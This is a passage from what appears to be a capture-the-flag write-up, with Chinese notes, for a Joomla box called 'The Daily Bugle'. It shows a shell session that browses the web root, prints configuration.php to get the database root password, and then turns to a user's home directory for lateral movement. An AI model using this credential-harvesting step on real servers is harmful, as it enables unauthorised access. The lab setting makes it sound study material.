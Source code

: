     ```
    sh-4.2$ cd /var 
    cd /var
    sh-4.2$ dir
    dir
    adm    crash  empty  gopher    lib    lock  mail  opt	    run    tmp	yp
    cache  db     games  kerberos  local  log   nis   preserve  spool  www
    sh-4.2$ cd www
    cd www
    sh-4.2$ dir
    dir
    cgi-bin  html
    sh-4.2$ cd html
    cd html
    sh-4.2$ dir
    dir
    LICENSE.txt    cli		  includes   media	 tmp
    README.txt     components	  index.php  modules	 web.config.txt
    administrator  configuration.php  language   plugins
    bin	       htaccess.txt	  layouts    robots.txt
    cache	       images		  libraries  templates
    cat configuration.php
    <?php
    class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'The Daily Bugle';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'nv5uz9r3ZEDzVjNu';
        public $db = 'joomla';
        ···
    }sh-4.2$ 
    ```

    + 在配置文件中发现一个凭证``$password = 'nv5uz9r3ZEDzVjNu' ``,尝试切换用户登录：

        ```
        cd /home
        dir
        jjameson
        cd jjameson
        dir
        user.txt
        ```
